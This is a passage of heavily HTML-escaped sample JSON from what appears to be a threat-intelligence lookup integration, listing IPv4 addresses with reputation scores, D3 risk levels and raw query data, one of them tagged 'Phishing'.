Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.178.17.3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;77&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.33.195.208&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 89,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.33.195.208&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 874628048,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 89,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.33.195.208&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;89&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;5&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;34.211.152.164&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;34.211.152.164&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 584292516,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;34.211.152.164&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.48.56&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 15,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.48.56&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 910372920,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 15,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.67.48.56&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;15&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.121&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 67,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.121&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 887262073,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 67,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.226.139.121&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;67&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.180&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 67,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.180&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 887262132,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 67,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.226.139.180&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;67&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;185.159.159.170&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 17,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;185.159.159.170&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3114246058,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 17,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;185.159.159.170&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;17&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;172.64.140.31&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 33,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;172.64.140.31&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2889911327,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 33,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;172.64.140.31&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;33&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;172.67.194.22&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 8,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;172.67.194.22&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2890121750,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 8,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_mask&quot;: 128,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;domain&quot;: &quot;172.67.194.22&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;domain_age&quot;: &quot;-1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_count&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;current_release_date&quot;: 1697959578,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;first_release_date&quot;: 1678413888,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;last_release_date&quot;: 1678413888,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_category&quot;: &quot;Phishing&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;172.67.194.22&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;8&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;Phishing&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;40.113.110.67&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 19,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;40.113.110.67&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 678522435,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 19,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; 